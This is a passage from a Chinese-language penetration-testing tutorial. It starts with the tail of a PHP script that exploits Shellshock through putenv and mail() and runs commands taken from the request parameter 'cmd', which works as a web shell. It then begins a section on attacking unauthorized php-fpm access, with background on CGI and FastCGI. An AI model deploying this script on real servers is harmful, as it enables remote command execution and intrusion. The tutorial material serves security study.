 ```php
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```





## 利用php-fpm未授权访问漏洞

### 推荐文章

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)

[浅析php-fpm的攻击方式](https://xz.aliyun.com/t/5598)

### 什么是php-fpm

php-fpm是php官方的fastcgi解析器,Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。FPM按照fastcgi的协议将TCP流解析成真正的数据。

说到fastcgi,就必须先讲一下cgi

cgi的历史:

> 早期的webserver只处理html等静态文件，但是随着技术的发展，出现了像php等动态语言。
> webserver处理不了了，怎么办呢？那就交给php解释器来处理吧！
> 交给php解释器处理很好，但是，php解释器如何与webserver进行通信呢？
> 为了解决不同的语言解释器(如php、python解释器)与webserver的通信，于是出现了cgi协议。只要你按照cgi协议去编写程序，就能实现语言解释器与webwerver的通信。如php-cgi程序。

Fast-CGI:

虽然cgi解决php解释器与webserver的通信问题，但是webserver每收到一个请求就会去fork一个cgi进程,请求结束再kill掉这个进程,这样会很浪费资源,于是出现了cgi的改良版本。

> fast-cgi每次处理完请求后，不会kill掉这个进程，而是保留这个进程，使这个进程可以一次处理多个请求。这样每次就不用重新fork一个进程了，大大提高了效率。

php-fpm 是一个Fastcgi的实现,并提供进程管理功能。

进程包含了master进程和worker进程
